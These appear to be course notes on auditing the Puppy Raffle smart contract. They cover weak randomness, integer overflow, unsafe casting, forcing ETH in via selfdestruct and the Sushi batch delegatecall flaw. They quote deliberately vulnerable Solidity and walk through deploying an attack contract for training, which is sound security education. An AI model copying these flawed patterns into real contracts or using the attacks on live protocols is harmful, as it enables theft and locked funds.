**Chainlink VRF:** "A provably fair and verifiable random number generator (RNG) that enables smart contracts to access random values without compromising security or usability. For each request, Chainlink VRF generates one or more random values and cryptographic proof of how those values were determined. The proof is published and verified on-chain before any consuming applications can use it. This process ensures that results cannot be tampered with or manipulated by any single entity including oracle operators, miners, users, or smart contract developers." - I encourage you to [**check out the Docs**](https://docs.chain.link/vrf).

**Commit Reveal Scheme:** "The scheme involves two steps: commit and reveal.

During the commit phase, users submit a commitment that contains the hash of their answer along with a random seed value. The smart contract stores this commitment on the blockchain. Later, during the reveal phase, the user reveals their answer and the seed value. The smart contract then checks that the revealed answer and the hash match, and that the seed value is the same as the one submitted earlier. If everything checks out, the contract accepts the answer as valid and rewards the user accordingly." - Read more in this [**Medium Article**](https://medium.com/coinmonks/commit-reveal-scheme-in-solidity-c06eba4091bb)!

## Exploit: Integer Overflow

We've only just started with the `selectWinner` function and we've already found another issue. Let's keep going and see if we can find more.

```solidity
function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        // @Audit: Why the calculation for totalAmountCollected, why not address(this).balance?
        uint256 totalAmountCollected = players.length * entranceFee;
        // @Audit:80% prizePool, 20% fee. Is this correct? Arithmetic may lead to precision loss
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        // @Audit: Total fees the owner should be able to collect. Why the casting? Overflow.
        totalFees = totalFees + uint64(fee);
​
        ...
```

Assessing the function snippet above I notice a few things that may be worth noting in our `notes.md` and/or by leaving in-line notes like shown.

```
totalFees = totalFees + uint64(fee);
```

This line in particular sets my alarm bells off. My experience tells me that this is at risk of `integer overflow`. This is a bit of a classic issue, as newer versions of Solidity (>=0.8.0) are protected from it.

> **Note:** 
>
> In Solidity versions 0.8.0+ `unchecked` is required to expose this vulnerability. Uints and ints are `checked` by default. If a max is surpassed in these versions, the transaction will revert.

## Integer Overflow: Mitigation

1. **Upgrade Solidity Version**: Implement automatic overflow protection by using a modern compiler version.

```diff 
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```

Alternatively, for legacy version compatibility, integrate OpenZeppelin's `SafeMath` library for overflow-safe arithmetic operations.

2. **Expand Data Type**: Increase the storage capacity to prevent realistic overflow scenarios.

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```

3. **Remove Problematic Balance Check**: Eliminate the strict balance verification that prevents fee withdrawal.

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

## Exploit: Unsafe Casting

### Unsafe Casting Breakdown

There's another issue with the line `totalFees = totalFees + uint64(fee)` that's similar to integer overflow, but a little different.

Using `chisel` again, we can see that a max `uint64` is 18446744073709551615.

Welcome to Chisel! Type `!help` to show available commands.

```
➜ type(uint64).max

Type: uint

├ Hex: 0x000000000000000000000000000000000000000000000000ffffffffffffffff

└ Decimal: 18446744073709551615

➜
```

We've also learnt that adding any to this number is going to wrap around to 0 again, but what happens if we try to cast a larger number into this smaller container?


We can see above that when `20e18` is cast as a `uint64` the returned value is actually the difference between `type(uint64).max` and `20e18`.

## Recon II

When a call is made externally, we should always ask ourselves what could happen in different scenarios.

- *What if the recipient is a smart contract?*
- *What if the contract doesn't have a receive/fallback function or forces a revert?*
- *What if the recipient calls another function through receive/fallback?*

The more experience you gain performing security reviews, the better your intuition will be about which questions to ask and what to watch out for.

However, if the winner had a broken `receive` function, `selectWinner` here would fail, it could actually be quite difficult to select a winner in that situation! We'll discuss impact and reporting of that a little later.

```solidity
// @Audit: Winner wouldn't be unable to receive rewards if fallback function was broken!
(bool success,) = winner.call{value: prizePool}("");
require(success, "PuppyRaffle: Failed to send prize pool to winner");
_safeMint(winner, tokenId);
```

Alright, we've completed a fairly thorough walkthrough of `selectWinner`, let's move onto the next function `withdrawFees`.

> As always there may be more bugs in these repos than we go over, keep a look out!

### Risks in withdrawFees

```solidity
function withdrawFees() external {
	// @Audit: If there are players, fees can't be withdrawn, does this make withdrawal difficult?
    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    // @Audit: What if the feeAddress is a smart contract with a fallback/receive which reverts?
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```

We've covered two more functions in `Puppy Raffle` and I think we're on the trail of a couple more bugs.

## Exploit: Mishandling Of ETH

### **No Receive, No Fallback, No Problem.**

Puppy Raffle's hope is that without a receive or fallback function, there should never be a way for this accounting to imbalance. Well, let's test it out.

```solidity
function testCantSendMoneyToRaffle() public {

​    address sendAddy = makeAddr("sender");

​    vm.deal(sendAddy, 1 ether);

​    vm.expectRevert();

​    vm.prank(sendAddy);

​    (bool success, ) = payable(address(puppyRaffle)).call{value: 1 ether}("");

​    require(success);

}
```

但是可以被selfdestruct攻击

### Mishandling of ETH: Minimized

To see this vulnerability in action we're going to again reference our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo!

There are two situational examples available for `Mishandling of ETH` for this lesson we want [**Remix (Vulnerable to selfdestruct)**](https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/SelfDestructMe.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js).

> Remember: The codebase is available on the [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/SelfDestructMe.sol) repo as well, if you want to test things locally.

```solidity
contract SelfDestructMe {
    uint256 public totalDeposits;
    mapping(address => uint256) public deposits;
​
    function deposit() external payable {
        deposits[msg.sender] += msg.value;
        totalDeposits += msg.value;
    }
​
    function withdraw() external {
        /*
            Apparently the only way to deposit ETH in the contract is via the `deposit` function.
            If that were the case, this strict equality would always hold.
            But anyone can deposit ETH via selfdestruct, or by setting this contract as the target
            of a beacon chain withdrawal.
            (see last paragraph of this section
            https://eth2book.info/capella/part2/deposits-withdrawals/withdrawal-processing/#performing-withdrawals),
            regardless of the contract not having a `receive` function.
​
            If anybody deposits ETH that way, then the equality breaks and the contract is DoS'd.
            To fix it, the code could be changed to >= instead of ==. Which means that the available
            ETH balance should be _at least_ `totalDeposits`, which makes more sense.
        */
        assert(address(this).balance == totalDeposits); // bad
​
        uint256 amount = deposits[msg.sender];
        totalDeposits -= amount;
        deposits[msg.sender] = 0;
​
        payable(msg.sender).transfer(amount);
    }
}
```

A user is able to deposit funds, which updates their balance as well as the `totalDeposits` variable. A user can also call `withdraw`, this function checks that the contract's balance is still equal to the `totalDeposits` and if so will updates balances and transfer funds.

The issue comes from this line:

```
assert(address(this).balance == totalDeposits);
```

The core of this vulnerability is the assumption that, without a `receive` or `fallback` function, the only way to send value to this contract is through the deposit function.

This is ***false\***.

Go ahead and deploy the `AttackSelfDestructMe.sol` contract. The constructor requires an attack target, so be sure to copy the address for `SelfDestructMe.sol` and pass it to your deploy. Give the contract a balance during deployment as well.

Now, when the attack function is called, `selfdestruct` will be triggered, and we expect to see our 5 Ether forced onto `SelfDestructMe.sol`.

Lastly, try calling the `withdraw` function on `SelfDestructMe.sol`. It reverts! The contract's accounting has been broken and it's balance is now stuck!


We've illustrated how relying on a contract's balance as a means of internal counting can be risky. There's really no way to be certain that arbitrary value isn't sent to a contract currently.

### Case Study: Sushi Swap

One of the best things you can do to grow your skills as a security researcher is to read case studies and familiarize yourself with hacks. We've included, in the [**course repo**](https://github.com/Cyfrin/security-and-auditing-full-course-s23), a link to [**an article**](https://samczsun.com/two-rights-might-make-a-wrong/) illustrating the case study we'll be going over briefly.

Now, the situation with Sushi Swap is different from what we've seen in other example, because again - `Mishandling of Eth` is a very broad category. Ultimately the issue was with this function:

function batch(bytes[] calldata calls, bool revertOnFail) external payable returns (bool[] memory successes, bytes[] memory results) {

```solidity
function batch(bytes[] calldata calls, bool revertOnFail) external payable returns (bool[] memory successes, bytes[] memory results) {
    successes = new bool[](calls.length);
    results = new bytes[](calls.length);
    for (uint256 i = 0; i < calls.length; i++) {
        (bool success, bytes memory result) = address(this).delegatecall(calls[i]);
        require(success || !revertOnFail, _getRevertMsg(result));
        successes[i] = success;
        results[i] = result;
    }
}
```

In the simplest terms, this function allows a user to compile multiple calls into a single transaction - sounds useful.

The oversight was in the use of `delegatecall`. When implementing delegatecall, msg.sender *and* msg.value are persistent. This meant that a single value sent for one call in this function could be used for multiple calls!

> **For example:** If I were to call a function which cost 1 ETH, to call it 100 times, it should cost 100 ETH. In the case of the `batch` function, a user would be able to call the function 100 times, for only 1 ETH!

## Recon III

We're doing great so far and have uncovered lots - we definitely shouldn't stop now.

### tokenURI

Skimming through the `tokenURI` function, nothing initially sticks out as unusual. A few things we would want to check would be:

- Assuring tokens have their rarity properly assigned.
- Verifying mapping for `rarityToUri` and `rarityToName` and where they are set.
- Double checking that the image URIs work for each rarity.

The function then ends in a whole bunch of encoding stuff. It's pretty heavy, so we're not going to go through it too deeply. There may be some redundancy here - I challenge you to sus it out - but for the most part this is good.

Definitely be thinking about *how can I break this view function?*

### Wrap Up

At this point we've completed our first thorough review of the code base. We should definitely go back and reassess events, as well as dedicate some time considering state variables - but for the most part, we've completed an initial review!

This would be a great stage to go back through our notes and begin answering some of the questions we've been leaving ourselves.

We likely have a tonne of questions at this point and it's good practice to now answer them. Going through our previous questions might even generate new ones - **but we keep at the process until we have a solid understanding of how everything should and does work.**

Usually **one pass of a code base isn't going to be enough.** If there are unanswered questions, it's a good sign that you need to go deeper.

## Answering Our Questions

```javascript
// Q1: What resets the players array?
​
// Q2: What if enterRaffle is called with an empty array?
​
// Q3: In the case of getActivePlayerIndex - what if the player is at Index 0?
​
// Q4: Does the selectWinner function follow CEI?
​
// Q5: Are raffleDuration and raffleStartTime being set correctly?
​
// Q6: Why not use address(this).balance for the totalAmountCollected in the selectWinner function?
​
// Q7: Is the 80% calculation for winners rewards correct?
​
// Q8: Where do we increment the totalSupply/tokenId?
​
// Q9: Can a user simply force the selectWinner function to revert if they don't like the results?
​
// Q10: What happens if the winner is a contract with broken or missing receive/fallback functions?
​
// Q11: What happens if the feeAddress is a contract with broken or missing receive/fallback functions?
```

```javascript
// A1: The players array is reset in the selectWinner function.
​
...
delete players;
raffleStartTime = block.timestamp;
previousWinner = winner;
(bool success,) = winner.call{value: prizePool}("");
...
​
// A2: If an empty array is submitted, an event is still emitted by the function. This will likely go in our report.
​
...
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    ...
    emit RaffleEnter(newPlayers);
}
...
​
// A3: A player at index zero, may believe they are not active in a raffle, as this function returns zero if a player is not found. This will also go in our report for sure.
​
...
function getActivePlayerIndex(address player) external view returns (uint256) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == player) {
            return i;
        }
    }
    return 0;
}
...
​
// A4: No, the selectWinner function doesn't follow CEI and we would recommend to the protocol that it does. However, I happen to know this isn't an issue in this function, so we might flag this as informational.
​
// A5: They are being set in the constructor and seem to be configured properly.
​
...
constructor(uint256 _entranceFee, address _feeAddress, uint256 _raffleDuration) ERC721("Puppy Raffle", "PR") {
        entranceFee = _entranceFee;
        feeAddress = _feeAddress;
        raffleDuration = _raffleDuration;
        raffleStartTime = block.timestamp;
...
​
// A6: This may be a design choice, but without clear rationale or a protocol to ask, we may flag this as informational for now.
​
// A7: Yes, as per the documentation, 80% should be sent to the winner with 20% being retained in fees.
​
// A8: This is handled by the OpenZeppelin ERC721.sol contract. Ultimately being set by this declaration when a winner is selected:
​
...
uint256 tokenId = totalSupply();
...
​
// A9: Yes! This will probably be an issue we'll want to add to our report.
​
// A10: The winner wouldn't be able to receive their reward! This is definitely something we should report as a vulnerability.
​
// A11: Sending funds to the feeAddress with the withdrawFees function will probably fail, but this is very low impact as the owner can simply change the feeAddress.
```

## Info and Gas Findings


We briefly ran Slither earlier in this section, but didn't look too closely at what its output was. We should definitely return to this.

A convention I like to use for storage variables is the `s_variableName` convention! So this may be an informational finding we would want to submit.

Even further up the contract there's a bigger concern however.

```
pragma solidity ^0.7.6
```

This statement is what's known as a `floating pragma`. It essentially denotes that the contract is compatible with solidity versions up to and including `0.7.6`. This brings a number of concerns including vulnerabilities across multiple versions, so best practice is to use a single version of solidity.

This would be a great informational finding to include in our report.

### Further Recommendations

Progressing down the code base, the next thing I notice are these statements:

```
uint256 prizePool = (totalAmountCollected * 80) / 100;

uint256 fee = (totalAmountCollected * 20) / 100;
```

When raw numbers are used in a code body like this, we refer to them as `Magic Numbers`. They provide no context of what they're doing. Best practice would be to assign these to named constants.

```
uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
uint256 public constant FEE_PERCENTAGE = 20;
uint256 public constant POOL_PRECISION = 100;
​
uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / POOL_PRECISION;
uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / POOL_PRECISION;
```

The last thing I'll point out is best verified through the project's `foundry.toml`. Here we can see the versions of the libraries being imported for the protocol.

A good practice will be to investigate the specific versions being used for reported issues and security advisories.

We can navigate to the OpenZeppelin security section [**here**](https://github.com/OpenZeppelin/openzeppelin-contracts/security).

This section of the OpenZeppelin repo is kept updated with known security vulnerabilities within various versions of the OpenZeppelin library.

By clicking on one of the advisories, we get a detailed breakdown including the affected versions.


### Gas

In addition to informational findings in an audit, it can be optional to include gas recommendations for the protocol as well, though static analysis tools are getting really good at this and they're certainly becoming less common.

One example of such a suggestion in Puppy Raffle would be regarding `raffleDuration`. Currently this is a storage variable, but this never changes. Puppy Raffle could absolutely change this to be a `constant` or `immutable` variable to save substantial gas.

## Pitstop

At this point, we're nearly done. We've two outstanding things to cover.

The first will be running through the `Slither` and `Aderyn` reports for Puppy Raffle and finally we'll check the code quality/tests for this repo.

Once we've completed those steps, I'm going to walk you through `Competitive Audits` on CodeHawks and how to submit a finding!

Then, the very last thing we'll do in this section is write our Puppy Raffle report, with PoCs. We won't always be going through the entire reporting process together. It can be time intensive, but it's important for you to practice these skills on your own. This is your opportunity to test yourself, gain insights, and prepare for future competitive audits.

## Slither Walkthrough


Alright, let's take a closer look at some of the issues Slither was able to find in our code base earlier. These will include, but aren't limited to, each of these.

- Using incorrect Solidity versions
- Missing/wrong events
- Event reentrancy
- Zero address checks
- Supply chain attacks
- Cache storage variables for loops
- Unchanged variables marked as immutable or constan

tart by running `slither .` just as before and let's dive into the output starting at the most severe


Conveniently, by using the syntax `// slither-disable-next-line [DETECTOR_NAME]`, we can tell Slither to ignore this warning:

```solidity
// slither-disable-next-line arbitrary-send-eth

(bool success,) = feeAddress.call{value: feesToWithdraw}("")
```

 **Uses a Weak PRNG**

- Dangerous Calls:
  - `winnerIndex = uint256(keccak256(bytes)(abi.encodePacked(msg.sender,block.timestamp,block.difficulty))) % players.length (src/PuppyRaffle.sol#127-128)`

This is the same vulnerability we detected! We can have slither ignore this line with:

```solidity
// slither-disable-next-line weak-prng

uint256 winnerIndex =

uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) 
```

Now, at this point, you're probably annoyed by all the libraries `Slither` has been catching things in. What if I told you there's a better way to exclude them all at once?!

==By running `Slither . --exclude-dependencies` we can actually run our tool and have it ignore anything detected in our imports!==

## Aderyn Walkthrough

Next, let's see what `Aderyn` can do for the Puppy Raffle repo. We'll assess each of the findings in turn. Some of which will include:

- Centralization Risks
- Dynamic Types & abi.encodePacked
- Non-Indexed Events

...

## Test Coverage

Alright! Let's see where we're at in our roadmap

```
Slither ✅
Aderyn ✅
Code Quality/Tests
---
Reporting
- Competitive Audits
    - Submit a finding
- Puppy Raffle Report incl. PoC
```

st coverage is up next, this should be easy.

> **Remember:** you can check test coverage with the command `forge coverage`.


This is ... pretty bad. In the context of a competitive audit, this may be less important, but in a private audit we should absolutely be calling this out as an informational. Assuring a repo has an adequate test coverage helps a protocol avoid overlooking areas of their code.

## Phase 4: Reporting Primer

As was mentioned before - you can always look at one more line of code, but at some point, you got to *write the report*.

Now, we're satisfied with our review, we're happy with the job we did. Lets write things up. We're going to go through the report together again as this is a crucial skill for your future security researcher career.

In audits and especially in bug bounties, it is your obligation to convince the protocol of the importance of your finding and the need for it to be fixed. Writing detailed and thorough audit reports is the avenue through which we do this.

BUT. Before we walkthrough another report, I want to introduce you to competitive audits. We're going to go over what they are, how they differ from private audits and how to submit a finding for them.


## What is a Competitive Audit?

### Competitive vs Private Audits

Before we get to our report, I want to illustrate what a competitive audit is, and how it may differ from a private audit.

***What is a competitive audit?\***

Unlike a private audit, where a single security researcher (or a small team) would be working with a protocol directly, a competitive audit sees a protocol making their code base publicly available and having people compete to find vulnerabilities within it.

I encourage you to checkout some of the past competitive audits on [**CodeHawks**](https://www.codehawks.com/contests), you can click 'View Final Report' To see a compilation of all the findings in a contest, who found it etc.

In a competitive audit, you're competing to find *bugs*, you're paid if you find vulnerabilities.

We can see how these payouts work by looking at the [**CodeHawks Docs**](https://docs.codehawks.com/). Findings rewards are ultimately broken down into shares and severity, where the system rewards finding more unique, difficult to find bugs.


You can also find examples of scenarios and calculations on the [**CodeHawks Docs**](https://docs.codehawks.com/hawks-auditors/payouts).

***How good are competitive audits?\***

The quality of competitive audits has been found to be - incredible. To use a past contest on CodeHawks as an example, the Beedle-Fi audit resulted in a staggering number of findings.


Security reviews of this nature consistently find more bugs that private reviews *and* they serve as the perfect platforms to gain experience and build your security researcher career.

Many top security researchers started their careers in this space, and continue to compete in competitive audits throughout.

Competitive audits are a tonne of fun, you can learn lots and of course you can win money.

***How do I start with competitive audits?\***

I'm glad you asked! CodeHawks hosts events called [**First Flights**](https://www.codehawks.com/first-flights), and we're going to have you do some of these!

First Flights are simplified code bases (just like Puppy Raffle) that have been built specifically to ease newcomers into the auditing process, familiarize them with how competitive audits work and afford auditors an effective avenue through which to learn and grow their skills with real world experience.

One additional benefit to using competitive audits as a platform to improve your skills is, once one concludes, all the validated findings are viewable, allowing an auditor to see which vulnerabilities they missed and how others are reporting their findings. This is hugely valuable for those looking to expand their skills.

## Reporting Templates

Throughout this course we have been, and will continue to use our [**audit-report-templating**](https://github.com/Cyfrin/audit-report-templating) repo to assist us with generating our final findings reports. I wanted to take a moment to make you aware of some alternatives, should you wish to try them out.

### Cyfrin GitHub Report Template

[**audit-repo-cloner**](https://github.com/Cyfrin/audit-repo-cloner)

On the Cyfrin team, we won't write up reports in markdown, we actually report our findings through issues directly on the GitHub repo, this is beneficial for collaborative situations. We use this repo cloner to prepare a repo for an audit by the Cyfrin team. From the README:

```markdown
It will take the following steps:
​
1. Take the source repository you want to set up for audit
2. Take the target repository name you want to use for the private --repo
3. Add an issue_template to the repo, so issues can be formatted as audit findings, like:
​
'''
**Description:**
**Impact:**
**Proof of Concept:**
**Recommended Mitigation:**
**[Project]:**
**Cyfrin:**
'''
​
4. Update labels to label issues based on severity and status
5. Create an audit tag at the given commit hash (full SHA)
6. Create branches for each of the auditors participating
7. Create a branch for the final report
8. Add the report-generator-template to the repo to make it easier to compile the report, and add a button in GitHub actions to re-generate the report on-demand
9. Attempt to set up a GitHub project board
```

### Report Generator Template

[**report-generator-template**](https://github.com/Cyfrin/report-generator-template)

This is a fork of the [**Spearbit Report Generator**](https://github.com/spearbit-audits/report-generator-template) and is used to consolidate issues/projects on a GitHub repo into a PDF Audit report.

From the README:

This repository is meant to be a single-step solution to:

```markdown
This repository is meant to be a single-step solution to:
​
- Fetch all issues from a given repository
- Sort them by severity according to their labels
- Generate a single Markdown file with all issues sorted by descending severity
- Integrate that Markdown file into a LaTeX template
- Generate a PDF report with all the issues and other relevant information
​
```

These tools/templates are especially great when working with a team. They save you from having to manually consolidate markdown write ups. If this is a method you'd like to try in your own auditing process, I encourage you to experiment and determine what works best for you!


# TSwap


# Thunder Loan


# Boss Bridge


# MEV & Governance